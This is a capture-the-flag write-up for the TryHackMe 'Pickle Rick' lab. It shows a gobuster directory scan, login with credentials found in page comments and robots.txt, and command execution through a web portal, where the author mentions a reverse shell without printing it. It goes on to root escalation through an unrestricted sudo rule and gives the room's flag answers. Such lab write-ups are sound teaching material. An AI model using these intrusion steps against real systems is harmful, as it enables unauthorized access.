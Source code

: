 # [Pickle Rick](https://tryhackme.com/room/picklerick)

First of all, checking the source code of the front page reveals a username "R1ckRul3s" in the comments

![Username "R1ckRul3s" in commets](username-comment.png)

Navigating to `/robots.txt`, we get the string "Wubbalubbadubdub"

![robots.txt](robots.png)

Running `gobuster` gives a few interesting targets

```sh
$ gobuster dir -u "http://box.ip/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x html,php -r -o root

/index.html           (Status: 200) [Size: 1062]
/assets               (Status: 200) [Size: 2185]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 200) [Size: 882]
```

Note: `/portal.php` just redirects to `/login.php for now`.

At `/login.php`, I tried the known username "R1ckRul3s" with the found string "Wubbalubbadubdub", which gave us access and redirected to `/portal.php`.

The portal page seems to runs system commands on a Linux machine...

![portal page](portal.png)

... so I just ran a simple bash reverse shell on got access to the box!

Right away, there's a couple of interesting files

```sh
www-data@ip-10-10-100-30:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-100-30:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
www-data@ip-10-10-100-30:/var/www/html$ cat clue.txt
Look around the file system for the other ingredient.
```

We've got the first ingredient for question 1: `mr. meeseek hair`

Checking with `sudo -l` *without a password*, we got some very interesting output

```sh
www-data@ip-10-10-100-30:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-30.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-30.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Our user, `www-data`, can run *ALL* commands without a password! With that, the next obvious thing to do is to get a root shell with `sudo bash`.

Looking at `/home`, we can see 2 users: `rick` and `ubuntu`, and in rick's directory, we have our 2nd ingredient: "1 jerry tear"

```
root@ip-10-10-100-30:~# cd /home
root@ip-10-10-100-30:/home# ls *
rick:
second ingredients

ubuntu:
root@ip-10-10-100-30:/home# cat rick/second\ ingredients
1 jerry tear
```

Going to `/root`, we find the 3rd ingredient, the answer to question 3: "fleeb juice"

```
www-data@ip-10-10-100-30:/var/www/html$ sudo bash
root@ip-10-10-100-30:/var/www/html/assets# cd
root@ip-10-10-100-30:~# ls
3rd.txt  snap
root@ip-10-10-100-30:~# cat 3rd.txt
3rd ingredients: fleeb juice
```
